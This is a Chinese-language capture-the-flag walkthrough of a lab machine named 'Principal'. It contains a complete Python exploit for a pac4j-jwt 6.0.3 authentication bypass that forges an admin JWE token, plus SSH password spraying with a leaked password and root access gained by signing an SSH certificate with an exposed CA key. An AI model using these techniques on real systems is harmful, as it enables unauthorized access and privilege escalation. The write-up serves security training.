

## Principal
### 总结
<details>
<summary>jwt.py脚本</summary>

```
_____________________________________________________
//1. 从 JWKS 端点提取 RSA 公钥
//2. 使用管理员权限创建一个 PlainJWT 标签
//3. 用服务器的公钥对它进行 JWE 加密包装
//4. 测试并打印伪造的令牌
_____________________________________________________
[★]$ pip3 install jwcrypto
_____________________________________________________
[★]$ vi jwt.py
#!/usr/bin/env python3

import json
import time 
import base64
import requests
from jwcrypto import jwk, jwe
import sys

TARGET = sys.argv[1]

print("[*] Fetching JWKS..")
resp = requests.get(f"{TARGET}/api/auth/jwks")
jwks_data = resp.json()
key_data = jwks_data['keys'][0]
pub_key = jwk.JWK(**key_data)
print(f"[+] Got RSA public key (kid: {key_data['kid']})")

def b64url_encode(data):
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

now = int (time.time())
header = b64url_encode(json.dumps({"alg": "none"}).encode())
payload = b64url_encode(json.dumps({
    "sub": "admin",
    "role": "ROLE_ADMIN",
    "iss": "principal-platform",
    "iat": now,
    "exp": now + 3600
}).encode())
plain_jwt = f"{header}.{payload}."
print(f"[+] Crafted PlainjWT with sub=admin, role=ROLE_ADMIN")

jwe_token = jwe.JWE(
        plain_jwt.encode(),
        recipient=pub_key,
        protected=json.dumps({
            "alg": "RSA-OAEP-256",
            "enc": "A128GCM",
            "kid": key_data['kid'],
            "cty": "JWT"
        })
)
forged_token = jwe_token.serialize(compact=True)
print(f"[+] Forged JWE token created")

headers = {"Authorization": f"Bearer {forged_token}"}

print("\n[*] Accessing /api/dashboard...")
resp = requests.get(f"{TARGET}/api/dashboard",headers=headers)
print(f"[+] Status: {resp.status_code}")
data= resp.json()
print(f"[+] Authenticated as: {data['user']['username']}({data['user']['role']})")

print(f"[+] Token: {forged_token}")
_____________________________________________________
//获得在Session Storage的token 
[★]$ python3 jwt.py http://10.129.244.220:8080
[*] Fetching JWKS..
[+] Got RSA public key (kid: enc-key-1)
[+] Crafted PlainjWT with sub=admin, role=ROLE_ADMIN
[+] Forged JWE token created

[*] Accessing /api/dashboard...
[+] Status: 200
[+] Authenticated as: admin(ROLE_ADMIN)
[+] Token:<SNIP>
_____________________________________________________
```
</details>

<details>
<summary>TrustedUserCAKeys /opt/principal/ssh/ca.pub</summary>

```
_____________________________________________________
svc-deploy@principal:/opt/principal/ssh$ cat /etc/ssh/sshd_config.d/60-principal.conf
# Principal machine SSH configuration
PubkeyAuthentication yes
PasswordAuthentication yes
PermitRootLogin prohibit-password
TrustedUserCAKeys /opt/principal/ssh/ca.pub

在这里我们发现了一个严重的配置错误。已将 TrustedUserCAKeys 设置为有效，但并未配置 AuthorizedPrincipalsFile 或 AuthorizedPrincipalsCommand。

当 OpenSSH 的 TrustedUserCAKeys 被配置但没有指定 AuthorizedPrincipalsFile 时：

[1]任何由受信任的证书颁发机构签署的证书都会被接受

[2]证书中列出的主体将与登录的用户名进行匹配
_____________________________________________________
svc-deploy@principal:~$ ssh-keygen -t ed25519 -f /tmp/pwn -N ""
Generating public/private ed25519 key pair.
Your identification has been saved in /tmp/pwn
Your public key has been saved in /tmp/pwn.pub
_____________________________________________________
svc-deploy@principal:~$ ssh-keygen -s /opt/principal/ssh/ca -I "pwn-root" -n root -V +1h /tmp/pwn.pub
Signed user key /tmp/pwn-cert.pub: id "pwn-root" serial 0 for root valid from 2026-04-07T13:30:00 to 2026-04-07T14:31:07
_____________________________________________________
//认该证书的主体是否为根主体
svc-deploy@principal:~$ ssh-keygen -L -f /tmp/pwn-cert.pub
/tmp/pwn-cert.pub:
        Type: ssh-ed25519-cert-v01@openssh.com user certificate
        Public key: ED25519-CERT SHA256:4ZHS7I3JFC9WnTS4SvbJHo4KgiOD6f8JsYQzz06F4Fc
        Signing CA: RSA SHA256:bExSfFTUaopPXEM+lTW6QM0uXnsy7CICk0+p0UKK3ps (using rsa-sha2-512)
        Key ID: "pwn-root"
        Serial: 0
        Valid: from 2026-04-07T13:30:00 to 2026-04-07T14:31:07
        Principals: 
                root
        Critical Options: (none)
        Extensions: 
                permit-X11-forwarding
                permit-agent-forwarding
                permit-port-forwarding
                permit-pty
                permit-user-rc
_____________________________________________________
svc-deploy@principal:~$ ssh -i /tmp/pwn root@localhost
root@principal:~# id
uid=0(root) gid=0(root) groups=0(root)
_____________________________________________________
```
</details>

### 扫描
```
 [★]$ nmap -sC  -sV 10.129.244.220
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-07 07:00 CDT
Nmap scan report for 10.129.244.220
Host is up (0.012s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b0:a0:ca:46:bc:c2:cd:7e:10:05:05:2a:b8:c9:48:91 (ECDSA)
|_  256 e8:a4:9d:bf:c1:b6:2a:37:93:40:d0:78:00:f5:5f:d9 (ED25519)
8080/tcp open  http-proxy Jetty
|_http-server-header: Jetty
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Principal Internal Platform - Login
|_Requested resource was /login
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Tue, 07 Apr 2026 12:00:15 GMT
|     Server: Jetty
|     X-Powered-By: pac4j-jwt/6.0.3
|     Cache-Control: must-revalidate,no-cache,no-store
|     Content-Type: application/json
|     {"timestamp":"2026-04-07T12:00:15.198+00:00","status":404,"error":"Not Found","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     Date: Tue, 07 Apr 2026 12:00:14 GMT
|     Server: Jetty
|     X-Powered-By: pac4j-jwt/6.0.3
|     Content-Language: en
|     Location: /login
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Tue, 07 Apr 2026 12:00:15 GMT
|     Server: Jetty
|     X-Powered-By: pac4j-jwt/6.0.3
<SNIP>
```
#### pac4j-jwt/6.0.3
#### 访问8080d端口：v1.2.0 | Powered by pac4j
#### 我们马上注意到页脚显示为 v1.2.0 | 由 pac4j 提供支持，正如我们在 Nmap 扫描中所见。此外，如果我们尝试向登录表单提交默认凭证/static/js/app.js，会发现请求被发送到了 /api/auth/login 
```
[★]$ curl -s http://10.129.244.220:8080/static/js/app.js
/**
 * Principal Internal Platform - Client Application
 * Version: 1.2.0
 *
 * Authentication flow:
 * 1. User submits credentials to /api/auth/login
 * 2. Server returns encrypted JWT (JWE) token
 * 3. Token is stored and sent as Bearer token for subsequent requests
 *
 * Token handling:
 * - Tokens are JWE-encrypted using RSA-OAEP-256 + A128GCM
 * - Public key available at /api/auth/jwks for token verification
 * - Inner JWT is signed with RS256
 *
 * JWT claims schema:
 *   sub   - username
 *   role  - one of: ROLE_ADMIN, ROLE_MANAGER, ROLE_USER
 *   iss   - "principal-platform"
 *   iat   - issued at (epoch)
 *   exp   - expiration (epoch)
 */

const API_BASE = '';
const JWKS_ENDPOINT = '/api/auth/jwks';
const AUTH_ENDPOINT = '/api/auth/login';
const DASHBOARD_ENDPOINT = '/api/dashboard';
const USERS_ENDPOINT = '/api/users';
const SETTINGS_ENDPOINT = '/api/settings';

<SNIP>

```
#### 我们可以使用像 Feroxbuster 或 FFUF 这样的工具进行模糊测试，看看能否找到更多的 API 端点，但我们在源代码中也能看到 /static/js/app.js。我们可以尝试阅读这段 JavaScript 代码，结果发现其中包含有关身份验证流程的有用信息，还有一些 API 的相关信息端点
#### 从这里我们可以看到一些标准的端点，比如 /dashboard、/users、/settings 和 /auth/login。然而，最有趣的端点是 /api/auth/jwks，根据注释，它包含一个公钥。让我们再次使用 cURL 来获取这个密钥。
```
[★]$ curl -s http://10.129.244.220:8080/api/auth/jwks  | jq
{
  "keys": [
    {
      "kty": "RSA",
      "e": "AQAB",
      "kid": "enc-key-1",
      "n": "lTh54vtBS1NAWrxAFU1NEZdrVxPeSMhHZ5NpZX-WtBsdWtJRaeeG61iNgYsFUXE9j2MAqmekpnyapD6A9dfSANhSgCF60uAZhnpIkFQVKEZday6ZIxoHpuP9zh2c3a7JrknrTbCPKzX39T6IK8pydccUvRl9zT4E_i6gtoVCUKixFVHnCvBpWJtmn4h3PCPCIOXtbZHAP3Nw7ncbXXNsrO3zmWXl-GQPuXu5-Uoi6mBQbmm0Z0SC07MCEZdFwoqQFC1E6OMN2G-KRwmuf661-uP9kPSXW8l4FutRpk6-LZW5C7gwihAiWyhZLQpjReRuhnUvLbG7I_m2PV0bWWy-Fw"
    }
  ]
}
```
#### 这为我们提供了用于 JWE 加密的 RSA 公钥。值得注意的是，这里提到的只是加密密钥。暴露的。该签名密钥是独立存在的，并且无法通过 JWKS 来获取。但根据我们目前所掌握的信息，包括使用 JWE 加密、JWS 签名验证以及 pac4jjwt/6.0.3 版本，我们确定存在 CVE-2026-29000 这一漏洞。
### Foothold
https://nvd.nist.gov/vuln/detail/CVE-2026-29000
#### CVE-2026-29000 是 pac4j-jwt 6.0.3 版本中 JwtAuthenticator 所存在的一个严重的认证绕过漏洞。当该验证器已配置了加密（JWE）和签名（JWS）的验证功能：
##### 1. 一个 JWE 令牌被接收并使用服务器的 RSA 私钥进行解密。
##### 2. 从内部数据包中提取出内容，并对它调用 toSignedJWT() 方法。
##### 3. 如果内部数据包为 PlainJWT（未签名，{"alg":"none"}）格式，则 toSignedJWT() 方法将返回没有内容可翻译。
##### 4. 该代码在验证签名之前会先检查 (signedJWT 不为 null) 的条件。
##### 5. 当 signedJWT 为空时，签名验证将完全被跳过。
#### 服务器会验证加密信封（JWE 解密成功），但不会验证其中的身份声明（内层 JWT 没有签名）。因此，我们可以伪造一个管理员令牌供我们使用。
#### 我们将使用以下脚本来：
##### 1. 从 JWKS 端点提取 RSA 公钥
##### 2. 使用管理员权限创建一个 PlainJWT 标签
##### 3. 用服务器的公钥对它进行 JWE 加密包装
##### 4. 测试并打印伪造的令牌
```
[★]$ pip3 install jwcrypto
```
```
[★]$ vi jwt.py
#!/usr/bin/env python3

import json
import time 
import base64
import requests
from jwcrypto import jwk, jwe
import sys

TARGET = sys.argv[1]

print("[*] Fetching JWKS..")
resp = requests.get(f"{TARGET}/api/auth/jwks")
jwks_data = resp.json()
key_data = jwks_data['keys'][0]
pub_key = jwk.JWK(**key_data)
print(f"[+] Got RSA public key (kid: {key_data['kid']})")

def b64url_encode(data):
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

now = int (time.time())
header = b64url_encode(json.dumps({"alg": "none"}).encode())
payload = b64url_encode(json.dumps({
    "sub": "admin",
    "role": "ROLE_ADMIN",
    "iss": "principal-platform",
    "iat": now,
    "exp": now + 3600
}).encode())
plain_jwt = f"{header}.{payload}."
print(f"[+] Crafted PlainjWT with sub=admin, role=ROLE_ADMIN")

jwe_token = jwe.JWE(
        plain_jwt.encode(),
        recipient=pub_key,
        protected=json.dumps({
            "alg": "RSA-OAEP-256",
            "enc": "A128GCM",
            "kid": key_data['kid'],
            "cty": "JWT"
        })
)
forged_token = jwe_token.serialize(compact=True)
print(f"[+] Forged JWE token created")

headers = {"Authorization": f"Bearer {forged_token}"}

print("\n[*] Accessing /api/dashboard...")
resp = requests.get(f"{TARGET}/api/dashboard",headers=headers)
print(f"[+] Status: {resp.status_code}")
data= resp.json()
print(f"[+] Authenticated as: {data['user']['username']}({data['user']['role']})")

print(f"[+] Token: {forged_token}")
```
```
[★]$ python3 jwt.py http://10.129.244.220:8080
[*] Fetching JWKS..
[+] Got RSA public key (kid: enc-key-1)
[+] Crafted PlainjWT with sub=admin, role=ROLE_ADMIN
[+] Forged JWE token created

[*] Accessing /api/dashboard...
[+] Status: 200
[+] Authenticated as: admin(ROLE_ADMIN)
[+] Token: eyJhbGciOiAiUlNBLU9BRVAtMjU2IiwgImVuYyI6ICJBMTI4R0NNIiwgImtpZCI6ICJlbmMta2V5LTEiLCAiY3R5IjogIkpXVCJ9.em2UQB2ajbitDAIjnBjdLjPcyhS8eHX3CCiQhGkbQr1BOi0TxcRzzbbPJcdFg2EzMnM-0cwoQ2__x-3UBHhbgV4p4jUZX-GPpL40sp6HJmehMwEiglmLCj4wXEUn7w-vOhzInqD7AS7QrLK7rS8szVZQzea87OeOKNgrnZWwizWYiB6ubt9lnfJuTAvf3dhqXWZ3A0vle_sDp4qnrWw1QsduDfsYArH-fZ2q-cCbxrewRndKAw5PFYrWbt-u3xb7UOScVtaLkkSQaRQ7TL4ihjH-2J1UGqn-LUHf-pCQG4b_UjDicMiOPLrIzlrGeU_yA0cjLLCmKbqeR8p2cpoh7A.PoXgmOqoSVZkO6-u.31JYReibEMOuRoAXgG50DGnaMmmPLFINA66TGyV_9bbWSMjUmGO4t51HTdGm5bPhPD6UYfU7s-0s8fVKalqZcsroMJGmyTKqWoyxiomsqUDowPvrzhnmt1AtGm092CrOuRLsOxYDuvK5FYWSjo3uLwB-e9gT80pBygOSWQTixT_8DsfIYSYnWbbUp5x91jbF8T8uWs3Eb-MzXNAfdEDG8kiz.RMMed3C66iGWqr1K3WfIAQ
```
#### 既然我们已经有了一个令牌，我们就将其添加到浏览器的会话存储中，将其标记为“auth_token”。然后我们刷新页面进行登录，这样就能直接进入仪表盘了。
#### 在Session Storage 粘贴token 
#### 因为这个网站把登录凭证（JWT）存储在浏览器的 Session Storage，而不是 Cookie；当前标签页有效；刷新还在，关掉就没了；JS 控制

#### Settings:
```
Security

authFramework           pac4j-jwt
authFrameworkVersion    6.0.3
jwtAlgorithm            RS256
jweAlgorithm            RSA-OAEP-256
jweEncryption           A128GCM
encryptionKey           D3pl0y_$$H_Now42!
tokenExpiry             3600s
sessionManagement       stateless
```
#### 凭借这个密码以及用户列表，我们可以对 SSH 进行密码扫描，以查看是否有用户正在使用该密码。我们将用户名保存到名为“user.txt”的文件中，然后使用 nxc 进行扫描。我们将用户名文件、密码和 IP 地址作为参数进行传递。
```
[★]$ vi user.txt
admin
svc-deploy
jthompson
amorales
bwright
kkumar
mwilson
lzhang
```
```
[★]$ nxc ssh 10.129.244.220 -u user.txt -p 'D3pl0y_$$H_Now42!'

SSH         10.129.244.220  22     10.129.244.220   [*] SSH-2.0-OpenSSH_9.6p1 Ubuntu-3ubuntu13.14
SSH         10.129.244.220  22     10.129.244.220   [-] admin:D3pl0y_$$H_Now42!
SSH         10.129.244.220  22     10.129.244.220   [+] svc-deploy:D3pl0y_$$H_Now42!  Linux - Shell access!
```
#### 看来“svc-deploy”用户正在使用该密码，我们可以通过 SSH 登录到他们的账户
```
[★]$ ssh svc-deploy@10.129.244.220
svc-deploy@principal:~$ id
uid=1001(svc-deploy) gid=1002(svc-deploy) groups=1002(svc-deploy),1001(deployers)
svc-deploy@principal:~$ ls
user.txt
svc-deploy@principal:~$ cat user.txt
```
### Privilege Escalation
```
svc-deploy@principal:~$ cd /
svc-deploy@principal:/opt$ ls
containerd  principal
svc-deploy@principal:/opt$ cd principal
svc-deploy@principal:/opt/principal$ ls
app  deploy  ssh
svc-deploy@principal:/opt/principal$ ls -la
total 20
drwxr-xr-x 5 root root      4096 Mar 11 04:22 .
drwxr-xr-x 4 root root      4096 Mar 11 04:22 ..
drwxr-xr-x 5 app  app       4096 Mar 11 04:22 app
drwxr-x--- 2 root root      4096 Mar 11 04:22 deploy
drwxr-x--- 2 root deployers 4096 Mar 11 04:22 ssh
```
#### 我们立刻发现我们能够读取 SSH 证书颁发机构的私钥，同时我们也注意到在 README 文件中表明，sshd 配置文件信任了这个证书颁发机构。
```
svc-deploy@principal:/opt/principal/ssh$ ls -la
total 20
drwxr-x--- 2 root deployers 4096 Mar 11 04:22 .
drwxr-xr-x 5 root root      4096 Mar 11 04:22 ..
-rw-r----- 1 root deployers  288 Mar  5 21:05 README.txt
-rw-r----- 1 root deployers 3381 Mar  5 21:05 ca
-rw-r--r-- 1 root root       742 Mar  5 21:05 ca.pub
svc-deploy@principal:/opt/principal/ssh$ cat README.txt
CA keypair for SSH certificate automation.

This CA is trusted by sshd for certificate-based authentication.
Use deploy.sh to issue short-lived certificates for service accounts.

Key details:
  Algorithm: RSA 4096-bit
  Created: 2025-11-15
  Purpose: Automated deployment authentication
```
#### 该文件还提到了一个名为“deploy.sh”的脚本，但我们无法读取此文件。让我们也检查一下 sshd 的配置吧。
```
svc-deploy@principal:/opt/principal/ssh$ cat /etc/ssh/sshd_config.d/60-principal.conf
# Principal machine SSH configuration
PubkeyAuthentication yes
PasswordAuthentication yes
PermitRootLogin prohibit-password
TrustedUserCAKeys /opt/principal/ssh/ca.pub
```
#### 在这里我们发现了一个严重的配置错误。已将 TrustedUserCAKeys 设置为有效，但并未配置 AuthorizedPrincipalsFile 或 AuthorizedPrincipalsCommand。
#### 当 OpenSSH 的 TrustedUserCAKeys 被配置但没有指定 AuthorizedPrincipalsFile 时：
##### 任何由受信任的证书颁发机构签署的证书都会被接受
##### 证书中列出的主体将与登录的用户名进行匹配
#### 我们还发现 PermitRootLogin 被设置为 prohibit-password，这意味着通过密码进行的 root 登录已被禁止。然而，基于证书的认证是被允许的。由于我们拥有 CA 的私钥，我们可以用任何我们想要的主体（包括 root）来签署证书。
#### 这与漏洞利用点类似：系统会验证加密包（证书是由受信任的 CA 有效签名的）但攻击者控制着身份声明（主体）。
#### 因此，为了提升权限，我们将生成一个新的 SSH 密钥对，用 CA 对公钥进行签名，并指定 root 为主体，最后使用伪造的证书以 root 的身份进行 SSH 连接。
#### 我们首先在 /tmp 目录中生成一个新的密钥。
```
svc-deploy@principal:~$ ssh-keygen -t ed25519 -f /tmp/pwn -N ""
Generating public/private ed25519 key pair.
Your identification has been saved in /tmp/pwn
Your public key has been saved in /tmp/pwn.pub
The key fingerprint is:
<SNIP>
```
#### 接下来我们将使用以下标志对其进行签名：
```
-s /opt/principal/ssh/ca ：我们将用于签名的 CA 私钥
- “pwn-root” ：证书编号
- “root” ：根用户
- “V +1h” ：有效期为一小时
- /tmp/pwn.pub ：正在被签名的公钥
```
```
svc-deploy@principal:~$ ssh-keygen -s /opt/principal/ssh/ca -I "pwn-root" -n root -V +1h /tmp/pwn.pub
Signed user key /tmp/pwn-cert.pub: id "pwn-root" serial 0 for root valid from 2026-04-07T13:30:00 to 2026-04-07T14:31:07
```
#### 让我们确认该证书的主体是否为根主体。
```
svc-deploy@principal:~$ ssh-keygen -L -f /tmp/pwn-cert.pub
/tmp/pwn-cert.pub:
        Type: ssh-ed25519-cert-v01@openssh.com user certificate
        Public key: ED25519-CERT SHA256:4ZHS7I3JFC9WnTS4SvbJHo4KgiOD6f8JsYQzz06F4Fc
        Signing CA: RSA SHA256:bExSfFTUaopPXEM+lTW6QM0uXnsy7CICk0+p0UKK3ps (using rsa-sha2-512)
        Key ID: "pwn-root"
        Serial: 0
        Valid: from 2026-04-07T13:30:00 to 2026-04-07T14:31:07
        Principals: 
                root
        Critical Options: (none)
        Extensions: 
                permit-X11-forwarding
                permit-agent-forwarding
                permit-port-forwarding
                permit-pty
                permit-user-rc
```
#### 现在我们可以使用该密钥通过 SSH 连接到系统根用户权限了。
```
svc-deploy@principal:~$ ssh -i /tmp/pwn root@localhost
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

root@principal:~# id
uid=0(root) gid=0(root) groups=0(root)
root@principal:~# cat /root/root.txt
```
